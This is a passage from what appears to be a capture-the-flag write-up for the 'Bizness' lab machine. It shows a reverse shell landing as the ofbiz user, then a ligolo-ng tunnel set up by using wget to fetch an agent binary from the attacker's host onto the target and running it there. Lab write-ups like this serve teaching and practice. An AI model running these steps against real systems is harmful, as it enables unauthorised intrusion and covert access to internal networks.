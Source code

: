 ```console
[+] The request has been successfully sent. Check the result of the command.
```

And I finally get a shell:

```console
listening on [any] 443 ...                                                                                                           [33/33]
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.252] 49116
id
uid=1001(ofbiz) gid=1001(ofbiz-operator) groups=1001(ofbiz-operator)
...

ofbiz@bizness:/opt/ofbiz$ cat $HOME/user.txt
a28084...
```

## PE

First I'll setup `ligolo` so I can access the target's internal ports from my machine.

```console
$ sudo ip tuntap add user kali mode tun ligolo
[sudo] password for kali:
$ sudo ip link set ligolo up
$ sudo ip route add 240.0.0.1/32 dev ligolo
```

```console
$ ligolo-proxy -selfcert -laddr 10.10.14.12:31337
WARN[0000] Using automatically generated self-signed certificates (Not recommended)
INFO[0000] Listening on 10.10.14.12:31337
    __    _             __
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ /
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /
        /____/                          /____/
  Made in France ♥            by @Nicocha30!
ligolo-ng »
```

On the target:

```console
ofbiz@bizness:~$ wget 10.10.14.12/ligolo-agent
--2024-05-22 18:05:30--  http://10.10.14.12/ligolo-agent
Connecting to 10.10.14.12:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4681728 (4.5M) [application/octet-stream]
Saving to: ‘ligolo-agent’
ligolo-agent        100%[===================>]   4.46M   769KB/s    in 6.5s
2024-05-22 18:05:37 (699 KB/s) - ‘ligolo-agent’ saved [4681728/4681728]
ofbiz@bizness:~$ chmod +x ligolo-agent
ofbiz@bizness:~$ ./ligolo-agent -ignore-cert -connect 10.10.14.12:31337
WARN[0000] warning, certificate validation disabled
INFO[0000] Connection established                        addr="10.10.14.12:31337"
```
